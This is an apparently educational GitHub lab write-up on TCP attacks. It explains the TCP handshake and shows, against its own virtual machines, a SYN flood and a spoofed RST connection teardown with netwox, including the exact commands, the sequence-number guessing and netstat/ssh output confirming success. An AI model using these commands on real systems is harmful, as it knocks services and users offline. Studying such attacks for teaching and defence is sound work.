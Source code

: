 # TCP Attacks

## Description

TCP is a protocol in the Transport Layer that works on top of the IP Layer. It provides a way for network nodes to communicate realiably and guarranties the order and the consistency of the delivered messages. To achieve this communication, both ends require to maintain a connection.

Although internet applications such as the email, file transfer, HTTP etc. rely on TCP, it has no security mechanism built into the protocol. The messages are not protected so an attacker can read them, manipulate and change them, insert fake data and hijack connections.

Here, we will show some of the methods that can be used to attack a TCP connection such as:

- SYN flooding
- Reset attack
- Session hijack

## Attacks

### SYN flooding
With SYN flood, the attacker tries to consume enough resources of the attacked machine in order to make it unresponsive to legitimate users.

When a new TCP connection is attempted the client and the server exchange 3 messages

1. Client: `SYN` 
2. Server: `SYN+ACK`
3. Client: `ACK`

<img src="https://camo.githubusercontent.com/f62aa97791bbf9a2d25eff8b882cb3438e8cd69c/68747470733a2f2f75706c6f61642e77696b696d656469612e6f72672f77696b6970656469612f636f6d6d6f6e732f7468756d622f392f39612f5463705f6e6f726d616c2e7376672f3139323070782d5463705f6e6f726d616c2e7376672e706e67" width="50%">

> Image taken from Wikipedia, https://en.wikipedia.org/wiki/SYN_flood

The first `SYN` informs the server that a client wants to establish a new connection. The server stores this request in a queue and the connection is called a *half-open connection*. When the third step (the client sending the `ACK` ) is completed the request is removed from this queue.

In this attack, the queue of the half-open connections is used to make the server unresponsive to new clients. The attacker sends a lot of `SYN` without replying `ACK`, filling the queue and binding resources of the server. When a legitimate client tries to connect to the server, the server will not be able to accept new `SYN` packets.

<img src="https://camo.githubusercontent.com/25195a8ac8a3c0ba79e75c743b2e2761f659f2f6/68747470733a2f2f75706c6f61642e77696b696d656469612e6f72672f77696b6970656469612f636f6d6d6f6e732f392f39342f5463705f73796e666c6f6f642e706e67" width="50%">

> Image taken from Wikipedia, https://en.wikipedia.org/wiki/SYN_flood

#### Preparation

In order to perform a SYN flooding attack, we created 2 virtual machines in VirtualBox, one for the server and the other for a client.
The role of the attacker is given to the host machine.

<img src="https://camo.githubusercontent.com/18a9109945b800ef925b0200b6f5a1f941ee8be4/68747470733a2f2f7370616e6167696f742e67722f6e6574776f726b732f766d732e706e67" width="50%">


To demonstrate this attack, we need to turn off the protection enabled by default (in Debian based OSes) using the command
```bash
sysctl -w net.ipv4.tcp_syncookies=0
```

To monitor the connections on the server, we will use a program called `netstat`, which is part of the `net-tools` package. Using the command `netstat -tna` we can see all the current active TCP connections on the machine.

```
user@server:~$ netstat -tna
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN
tcp        0      0 10.2.1.16:22            10.2.1.5:59831          ESTABLISHED
tcp6       0      0 :::22                   :::*                    LISTEN
```

As we can see, our machine is listening for SSH connections and the `ESTABLISHED` is an SSH connection from the host to the VM. We can also see that we don't have any `SYN_RECV` state. In normal situations there won't be many half-open connections.

To perform the attack we will use the `netwox` package which includes a tool that can launch a SYN flooding attack (tool number 76).

```
Title: Synflood
Usage: netwox 76 -i ip -p port [-s spoofip]
Parameters:
 -i|--dst-ip ip                 destination IP address {5.6.7.8}
 -p|--dst-port port             destination port number {80}
 -s|--spoofip spoofip           IP spoof initialization type {linkbraw}
 --help2                        display full help
Example: netwox 76 -i "5.6.7.8" -p "80"
Example: netwox 76 --dst-ip "5.6.7.8" --dst-port "80"
```

#### Attack

We want to target the SSH server running at the port 22 and the address of the machine is `10.2.1.16`. So, to perform the attack we need to execute

```bash
netwox 76 -i 10.2.1.16 -p 22 -s raw
```

After running this command, we execute again the `netstat` command on the server to see what is going on.

```
user@server:~$ netstat -tna
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN
tcp        0      0 10.2.1.16:22            142.65.213.19:8969      SYN_RECV
tcp        0      0 10.2.1.16:22            42.82.247.152:23656     SYN_RECV
tcp        0      0 10.2.1.16:22            21.74.47.152:40124      SYN_RECV
tcp        0      0 10.2.1.16:22            219.199.203.189:16719   SYN_RECV
tcp        0      0 10.2.1.16:22            25.30.122.237:58762     SYN_RECV
tcp        0      0 10.2.1.16:22            8.107.205.103:57390     SYN_RECV
tcp        0      0 10.2.1.16:22            218.215.44.80:61166     SYN_RECV
tcp        0      0 10.2.1.16:22            190.69.210.6:22369      SYN_RECV
tcp        0      0 10.2.1.16:22            5.244.215.162:14775     SYN_RECV
tcp        0      0 10.2.1.16:22            111.93.83.52:57612      SYN_RECV
tcp        0      0 10.2.1.16:22            164.243.64.220:8708     SYN_RECV
tcp        0      0 10.2.1.16:22            27.189.25.159:18512     SYN_RECV
tcp        0      0 10.2.1.16:22            66.77.120.164:23110     SYN_RECV
tcp        0      0 10.2.1.16:22            81.225.85.217:25157     SYN_RECV
tcp        0      0 10.2.1.16:22            118.36.20.88:37156      SYN_RECV
tcp        0      0 10.2.1.16:22            131.13.233.59:2758      SYN_RECV
tcp        0      0 10.2.1.16:22            145.136.144.151:65212   SYN_RECV
tcp        0      0 10.2.1.16:22            122.252.244.20:31515    SYN_RECV
tcp        0      0 10.2.1.16:22            5.49.25.115:48337       SYN_RECV
```

The list of `SYN_RECV` connections is larger but it would be unecessary to show it all. We can see that all these connections target the port 22 and the foreign address looks random. After leaving this tool running for a couple of seconds, the server will not be able to receive new TCP connections.

We can verify this by trying to open a new SSH from the client.

```bash
user@client:~$ ssh user@10.2.1.16
ssh: connect to host 10.2.1.16 port 22: Operation timed out
```

We need to specify here that this attack will only affect the port 22 and the SSH service. If telnet was running on port 23 it would not be affected because the each port has its own connection queue. Also, the server will continue operating normally, without any indication that an attack is happening.

### RST attack
There are two ways to terminate and established TCP connection between two hosts (let's call them A and B). The first way is done with A informing B that it wants to terminate the connection by sending a `FIN` packet and expects and `ACK` from B. If B wants also to terminate his side of the connection (because TCP connections are two one-way "pipes") can also send a `FIN` packet and after `ACK` is received the connection is considered closed.
The second way is for host A to send a `RST` packet. The `RST` packet will indicate to the receiving host that the connection should be terminated immediately. It is used in situations where there is no time to close the connection using the `FIN` packets and when there are errors detected in the connection.
Using the `RST` packet, an attacker can terminate an established connection without the consent of any of the legitimate users.

#### Preparation
We will use again 3 machines, one VM and the host as the legitimate users and the other VM as the attacker (see preparation in the previous attack).

#### Attack
Considering we know everything about the current connection between the server and the client (both source and destination IP and port number), we need to guess the sequence number because if it's not considered valid by the receiver our(the attacker's) packet will be discarded.
We will use wireshark to monitor the traffic between the two users and find the sequence number.
We will also use again the `netwox` program and the tool number 40 which can be used to send any TCP package.

```bash
user@client:~$ netwox 40 --help
Title: Spoof Ip4Tcp packet
Usage: netwox 40 [-c uint32] [-e uint32] [-f|+f] [-g|+g] [-h|+h] [-i uint32] [-j uint32] [-k uint32] [-l ip] [-m ip] [-n ip4opts] [-o port] [-p port] [-q uint32] [-r uint32] [-s|+s] [-t|+t] [-u|+u] [-v|+v] [-w|+w] [-x|+x] [-y|+y] [-z|+z] [-A|+A] [-B|+B] [-C|+C] [-D|+D] [-E uint32] [-F uint32] [-G tcpopts] [-H mixed_data]
Parameters:
 -l|--ip4-src ip                IP4 src {10.2.1.27}
 -m|--ip4-dst ip                IP4 dst {5.6.7.8}
 -o|--tcp-src port              TCP src {1234}
 -p|--tcp-dst port              TCP dst {80}
 -q|--tcp-seqnum uint32         TCP seqnum (rand if unset) {0}
 -B|--tcp-rst|+B|--no-tcp-rst   TCP rst
 --help2                        display help for advanced parameters
 ```
 (We removed all the unused options from the parameters list because the list was huge)

By monitoring the connection in Wireshark, we can see the current sequence numbers, and we can use them to predict the next one. TCP has a certain "window" so we don't need to be extremely accurate.
Here are the connections to the server

```bash
user@server:~$ netstat -tna
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN
tcp        0      0 10.2.1.16:22            10.2.1.5:52494          ESTABLISHED
tcp6       0      0 :::22                   :::*                    LISTEN
```

and here is the latest sequence number as captured by Wireshark (Wireshark shows by default the relative sequence number and we need to turn it off)

<img src="https://spanagiot.gr/networks/wireshark_seq.png" >

By inspecting the other packets we can see that the sequence number increases by 36 almost every time, so 1806966531+36=1806966567 will be our guess.

We launch the attack by running
```bash
netwox 40 -l 10.2.1.5 -m 10.2.1.16 -o 52494 -p 22 -B -q 1806966567
```

If we guess correctly, we will see on the client connected to the server this message
```bash
user@server:~$ packet_write_wait: Connection to 10.2.1.16 port 22: Broken pipe
```
which indicates that our attack was successful!
